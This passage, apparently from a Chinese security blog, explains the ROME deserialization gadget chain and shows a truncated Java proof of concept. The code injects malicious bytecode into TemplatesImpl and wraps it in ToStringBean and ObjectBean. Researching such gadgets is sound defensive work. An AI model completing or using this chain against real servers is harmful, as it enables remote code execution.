 我们可以发现 key 调用了 hashCode() 方法，这样就又能够任意类调用 hashCode 了：

[![](assets/1701612185-e7910ae6c0a73a310ac75139422bf797.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155252-691aecf0-34f7-1.png)

```plain
package EXPROME;

import java.util.Hashtable;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class RomeHashTable {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

```